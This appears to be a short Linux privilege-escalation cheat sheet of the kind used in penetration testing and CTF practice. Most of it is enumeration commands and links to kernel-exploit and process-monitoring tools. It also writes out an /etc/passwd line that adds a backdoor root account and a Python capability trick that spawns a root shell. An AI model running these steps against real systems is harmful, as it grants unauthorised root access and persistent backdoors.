 ```bash
cat /etc/crontab
```

```bash
find / -perm -u=s -type f 2>/dev/null
```

```bash
netstat -tunlp
```

```bash
ss -tunlp
```

```bash
cat ~/.profile && cat ~/.bashrc
```

```bash
ls -la /var/backups
```

### Linux Kernel Exploits Binaries

[https://github.com/m0mkris/linux-kernel-exploits](https://github.com/m0mkris/linux-kernel-exploits)

An alternative to view running processes as non-root user

[https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

id shows that you’re in a non-default group? Find all files that are owned by this group.

```bash
find / -group $groupname 2>/dev/null
```

```bash
echo 'hacked:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0:test:/root:/bin/bash' >> /etc/passwd
```

### Create /etc/passwd openssl password

```bash
openssl passwd -1 -salt salt password
```

### Run as a privilege group

```bash
sudo -g python_admin admin_python3
```

### Custom Python script found? - get capabilities

```bash
getcap /usr/bin/admin_python3
/usr/bin/admin_python3 = cap_setuid+ep
>>> import os
>>> os.setuid(0)
>>> os.system("bash")
```
